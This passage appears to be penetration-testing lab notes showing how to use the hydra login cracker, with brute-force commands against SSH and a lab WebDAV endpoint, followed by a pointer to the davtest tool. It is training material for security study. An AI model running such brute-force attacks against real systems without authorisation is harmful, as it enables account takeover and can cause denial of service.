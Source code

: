 ![browser check](windows-attacksassets/image-20230310133943639.png)

### [hydra](https://www.kali.org/tools/hydra/)

> **`hydra`** - a parallelized fast and flexible login cracker which supports numerous protocols to attack.

```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> ssh
```

> **❗Pay attention with brute-force attacks as they can cause a DoS (Denial of Service)❗**

- Try `hydra` to brute force WebDAV in this case

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/
```

![](windows-attacksassets/image-20230310134755008.png)

- Use the lab provided credentials instead, first in the web browser then with `davtest` tool

![](windows-attacksassets/image-20230310134917364.png)
